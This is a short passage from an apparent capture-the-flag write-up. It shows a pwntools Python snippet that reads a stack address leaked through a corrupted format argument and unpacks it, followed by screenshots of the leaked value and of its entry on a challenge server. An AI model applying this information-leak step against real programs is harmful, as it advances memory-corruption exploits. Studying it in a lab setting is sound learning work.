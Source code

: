 ```python

addressRaw = p.recvline()  # The corrupted varg prints the address of the player name now

addressStr = addressRaw[0:len(addressRaw)-1]  # Get rid of new line

addressStr = addressStr + b"\x00" * (8 - len(addressStr))  # Add any missing leading zeroes for unpacking

address = u64(addressStr)  # Unpack address so we can perform calculations

print(f"Got leaked address (of player name) as 0x{address:x}")

# IPython.embed()
```

![A screenshot of the Python script above being run. The output is "Got leaked address (of player name) as 0x7ffc5dac1c10."](./imgs/name-address-leaked-remote.png "Leaking the Real Address of Name")

![Screenshot of challenge.us, which has prompts the user to enter the leaked address. The textbox contains the leaked address.](./imgs/name-challenge-server.png "Entering Leaked Address")
